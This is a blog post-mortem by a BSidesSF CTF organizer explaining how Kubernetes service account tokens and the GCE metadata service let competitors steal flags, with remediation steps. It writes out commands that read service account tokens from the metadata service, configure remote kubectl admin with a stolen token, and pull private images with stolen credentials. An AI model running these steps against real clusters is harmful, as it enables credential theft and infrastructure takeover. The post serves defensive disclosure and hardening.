

> _Note: This article was originally [posted on Medium](https://medium.com/hackernoon/capturing-all-the-flags-in-bsidessf-ctf-by-pwning-our-infrastructure-3570b99b4dd0), but was copied by here for posterity._ 

**TLDR**: the challenges for the BsidesSF CTF were run in Docker containers on Kubernetes using Google Container Engine. Because of the two infrastructure issues, it was possible to exploit one of the early challenges, steal service account keys, and then use those keys to directly access flags. One of these problems was discovered (but not exploited) by a competitor.

## Running the BSides CTF on Kubernetes
On the weekend before RSA (Feb 11 — Feb 13), we ran the capture the flag competition for BsidesSF. It was targeted at beginner/intermediate players and turned out to be pretty successful, with over 500 teams participating internationally. We decided to run all our challenges in docker containers on Google Container Engine (GKE). I won’t delve too much into this decision, but as a small team with time constraints Docker and Kubernetes allowed us to focus our efforts on writing interesting challenges and made deployment, maintenance, and scaling dead simple. Though it worked out for us, there are many reasons why these tools might not be suitable for CTFs.

CTF is intended to be a hacker’s playground and many challenges will allow competitors to run arbitrary code on your machines. Competitors should be able to do essentially whatever they want as long as they are not able to interfere with other teams, damage the challenge, or access resources that are out of scope (other flags, the scoreboard, etc.) For this reason, isolation of the challenge resources is critical. After talking with a few other CTF organizers, I learned that this isolation is most often achieved with completely separate hosts, VMs under ESXi or Xen, or simple chroot jails. With Docker, many of our challenges deployed were on the same host and isolation was provided by kernel namespaces and control groups- features of the linux kernel that underly this technology.

Docker and Kubernetes together introduce new attack surface that could allow competitors to break the challenge isolation. Namely:

1. **The Linux kernel.** All containers running on a machine share the host’s kernel and are separated using kernel namespaces. Any attacks that allow competitors to bypass these kernel enforcements could allow them to escape the container and access resources for other challenges.
2. **The Kubernetes API**. Accessing this with sufficient credentials would give competitors full control over the containers in the cluster. Getting the flags for other challenges would be as simple as running:`kubectl exec a_pod  —  cat /flag`. Kubernetes also manages cluster state in an etcd database, but fortunately access to this database from the rest of the cluster is disabled by GKE.
3. **The private Docker registry.**  On GKE, Docker images are usually stored in a private Docker registry provided by the platform. In our case, some of these images contained challenge source code and flags. If a competitor was able to pull these images, they would easily be able to extract the flags from them.
Let’s run through each of these.

## 1. Kernel attack surface
The Docker docs have very thorough documentation about the Docker [security model](https://docs.docker.com/engine/security/security/). Though containers are generally not considered a suitable replacement for VMs, we decided that we trusted the isolation provided by the linux kernel enough. We ran all our challenges as an unprivileged user within the container, and challenges that required network isolation were deployed to different clusters. We also had plans for using the Kubernetes container [security context](https://kubernetes.io/docs/user-guide/security-context/) and applying seccomp profiles, but sadly didn’t have time for this. Either way, a container escape is certainly not trivial and generally requires a kernel vulnerability like [Dirty Cow](https://dirtycow.ninja/). It seemed unlikely that someone would bring one of these out for our relatively unknown, beginner to intermediate CTF.

## 2. Kubernetes API
The next hardening task was to ensure that processes running inside the containers could not access the Kubernetes API. This unfortunately was the first place where we failed to do our research. We assumed that the containers represented a trust boundary, and that processes running in these containers would usually not need to access or modify the cluster state. The nodes that were running the containers would obviously need access to the API to allow scheduling of containers, but it made sense that access to the API from within the containers would be restricted unless explicitly enabled. [@traviscline](https://twitter.com/traviscline), a CTF competitor, quickly proved this wrong.

As it turns out, when pods (a Kubernetes abstraction for a group of containers) are created they are automatically assigned the default service account, and a new volume is created containing the token for accessing the Kubernetes API. That volume is then [_mounted into all the containers in the pod_](https://kubernetes.io/docs/admin/service-accounts-admin/), at `/var/run/secrets/kubernetes.io/serviceaccount` .The access token in this directory is all you need to view cluster state and execute arbitrary commands in the containers.

### How to steal flags

Here’s what it looked like from Travis’s perspective:

> The second stage of the “Zumbo” challenge required a path traversal attack to read a file out of /flag on the filesystem. I used this vulnerability to read /etc/hosts, and noticed the default comment that Kubernetes adds, indicating that this challenge was running in a container on Kubernetes.

```
Kubernetes-managed hosts file.
127.0.0.1       
localhost::1     
localhost 
ip6-localhost 
ip6-loopback=fe00::0 
ip6-localnetfe00::0 
ip6-mcastprefixfe00::1 
ip6-allnodesfe00::2 
ip6-allrouters172.17.0.4      
apache-1336197910-847nq
```
> From there I used the same path traversal vulnerability to to access the secret in `/var/run/secrets/`kubernetes.io/serviceaccount
>
> The easiest thing to accomplish was to simply get an executable `kubectl` binary onto the system. Zumbo containers have curl and an writeable/executable /tmp so there was no barrier here. While we could craft api requests ourselves and send them to getent hosts kubernetes. `kubectl` makes cluster compromise trivial as it will use that serviceaccount token without additional prompting.
> 
> Exposing internal cluster services such as the dashboard and launching new containers that had external network connectivity demonstrated cluster takeover and provided options for persistence.
> 
> Cluster admin in this context meant full filesystem access for all the challenges via `kubectl exec`. For most of the challenges this meant flags were directly readable. I opted to alert the organizers and avoided spoiling the fun for the rest of the crowd.
> 
> A rough reenactment of the steps taken is laid out [here](https://gist.github.com/tmc/8cd2364f7b6702ac6318c64a3d17e32d).
> 
> In retrospect remote cluster access would have easier by identifying the public ip and configuring a local client. An in-environment request similar to `curl -k -H ‘Authorization: Bearer ${serviceaccount_token} [https://kubernetes/api](https://kubernetes/api)` exposes the public of the apiserver. Having these two values means you can from any machine set up cluster admin access like so:
> 
```
kubectl config set-cluster pwned — server=https://${public_ip} — insecure-skip-tls-verify 
kubectl config set-credentials pwn — token=${serviceacount_token}
kubectl config set-context pwned — cluster=pwned — user=pwn
kubectl config use-context pwned
```
> A memoir:


## Fixing this Issue

After being notified, I worked to remediate the issue as quickly as possible. Looking through the documentation, there didn’t seem to be an easy way to disable the feature. With a bit more research, I found [this issue](https://github.com/kubernetes/kubernetes/issues/16779) on Github. Apparently the auto-mounting of API credentials is a feature maintained for backwards compatibility, and at the time there wasn’t a way to disable it. The workaround was to mount an empty, read-only volume at the the location where Kubernetes mounts the service account credentials.
```
  volumeMounts:    
    - mountPath: /var/run/secrets/kubernetes.io/serviceaccount      
      name: no-api-access-please      
      readOnly: true
volumes:  
  - name: no-api-access-please    
    emptyDir: {}
```
## Implications

In hindsight, this was a pretty obvious oversight that could have easily been avoided with a more thorough read-through of the documentation. That being said, I would argue that this is an insecure default that should be disabled out of the box. This behavior could allow an attacker to pivot from a relatively simple web application bug (file disclosure) to a full infrastructure compromise. The Kubernetes community is aware of this issue. The long term solution is the role-based access control plugin which allows for more fine-grained access control and can be used limit what resources service accounts have access to. This feature was recently promoted to Kubernetes beta, and will likely make its way into GKE soon.

## 3. Private Docker Registry
Here is where we made our second mistake. Private docker registries on Google’s platform are simply buckets in Google Cloud Storage. The nodes in the cluster need to be able to pull from the registry, so read-only credentials are given to the nodes via service account credentials passed in the [instance metadata](https://cloud.google.com/compute/docs/storing-retrieving-metadata#querying), which is available to the node via an http service listening at `http://169.254.169.254` . We unfortunately glossed over this important detail during planning. Because some of our containers had flags baked into the images rather than mounted as volumes, it was possible to use a remote code execution vulnerability in one of the challenges to read the service account credentials and then pull our containers.

### How to Steal Flags:

Using an RCE or SSRF, an attacker would issue requests to the metadata service for the default service account email and access tokens.

```
# Assuming you have code execution within the container
$ curl http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/email
something-something@developer.gserviceaccount.com

$ curl -s http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token
{"access_token": "something-something", "expires_in":1881,"token_type":"Bearer"}
```

Using those two pieces of information, you can use Docker to directly pull the images from our private registry.
```
# Using the credentials you have stolen from the previous steps
$ docker login -e <email> -u oauth2accesstoken -p "<access token>" https://gcr.io
$ docker pull gcr.io/bsides-ctf-2017/zumbo
# Extract flags from container..
```

This assumes that you have some internal knowledge: the name of our project and the image names, neither of which would be too difficult guess and are probably discoverable by other means.

### Fixing this issue

We could have avoided this issue by ensuring that all challenge resources (flags, binaries, source code, etc.) were added to the containers via mounted volumes. Had we done this for all challenges, our images essentially could have been public — pulling them would not give a CTF participant anything interesting. For some of our challenges, completely removing the private resources from the images would have been difficult. A more ideal setup would be denying access to the metadata service from within the containers. I have not attempted this, but it likely could be achieved by using a tool like [Lyft’s metadataproxy](https://eng.lyft.com/scoping-aws-iam-roles-to-docker-containers-c9c5f8f2f75) to proxy connections from the containers to the metadata service.

### Implications

Unlike the previous issue this is certainly not an insecure default, but how the platform was designed to work. Its not specific to GKE, Google Cloud and AWS both rely on an http service as a method for distributing metadata and certain secrets to instances, making these secrets available to any process running on the machine. This is definitely a useful thing to know about when building on these platforms.

## Conclusion
It was an interesting experiment, but we will probably won’t be using this same setup for our next CTF. While Kubernetes makes it very easy to get everything up and running, it adds a great deal of complexity and attack surface. It fundamentally was not designed for running untrusted code, and thus is probably not a good choice for Capture the Flag where the threat model involves giving attackers arbitrary code execution.

### More reading
For a great overview of further hardening options for containers on GKE as well as the Kubernetes security roadmap, check out [Alex Mohr and Jessie Frazelle’s talk at Google Next 2017](https://www.youtube.com/watch?v=Cd4JU7qzYbE). This is a really excellent talk and I am very sad it was not presented two months earlier.

Securing a self-hosted Kubernetes cluster can be its own can of worms, and the best guidance I have seen is from [Jesse Endahl’s talk at BsidesSF 2017](https://www.youtube.com/watch?v=BER8uridVIs). Kelsey Hightower also maintains a great [tutorial](https://github.com/kelseyhightower/kubernetes-the-hard-way) on setting up a Kubernetes cluster.

If you’d like to learn more about the Docker security model, and security of containers in general check out the [NCC whitepaper on container security](https://www.nccgroup.trust/us/about-us/newsroom-and-events/blog/2016/april/understanding-and-hardening-linux-containers/).

Want to chat about CTF, containers, or anything else security related? Follow me on [Twitter](https://twitter.com/CornflakeSavage).

## _July 2018 edits:_ 
This article was written in 2017, a fair amount has changed in the fast-moving k8s world since then. A couple of notes:
* You can now [disable auto-mounting of the service account token](https://kubernetes.io/docs/tasks/configure-pod-container/configure-service-account/) with `automountServiceAccountToken: false`
* On GKE, you use the [metadata proxy](https://cloud.google.com/kubernetes-engine/docs/how-to/metadata-concealment) to block pods from accessing certain secrets from the metadata service.
* This article completely overlooks the juicy k8s secrets that are available via the metadata service. Check out this [awesome bug bounty report](https://hackerone.com/reports/341876) for an example of how to turn an SSRF into RCE by accessing these secrets.
* A lot of work is [underway](https://blog.jessfraz.com/post/hard-multi-tenancy-in-kubernetes/) to support hard multi-tenancy in k8s, which would make it much more viable for hosting CTF competitions.
 